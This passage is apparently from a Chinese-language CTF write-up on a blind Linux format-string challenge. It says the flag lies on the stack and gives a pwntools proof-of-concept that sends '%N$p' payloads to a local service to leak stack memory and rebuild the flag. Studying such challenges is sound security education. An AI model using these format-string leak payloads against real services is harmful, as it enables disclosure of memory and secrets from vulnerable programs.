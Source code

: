### 程序分析

经过简单的 `fuzz` 后得到以下流程图

![blind_flow_chart](/image/2019-03-20-linux_pwn_format/blind_flow_chart.jpg)

这里出题人已经很明确的告诉我们了，`flag` 在栈上，所以我们只需要将栈上的 `flag` 泄露出来即可。

`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def leak_flag(payload):
    exp_file = remote("127.0.0.1", 10000)
    exp_file.sendline(payload)
    recv_value = exp_file.recvuntil(".")
    recv_value_str = ""
    if recv_value[:2] == "0x":
        recv_value_int = int(recv_value.replace(".", ""), 16)
        recv_value_str = p64(recv_value_int)
    exp_file.close()
    return recv_value_str


def main():
    value = ""
    for counts in range(1, 100):
        payload = "%{nums}$p.".format(nums=counts)
        value += leak_flag(payload)
    print(value)


```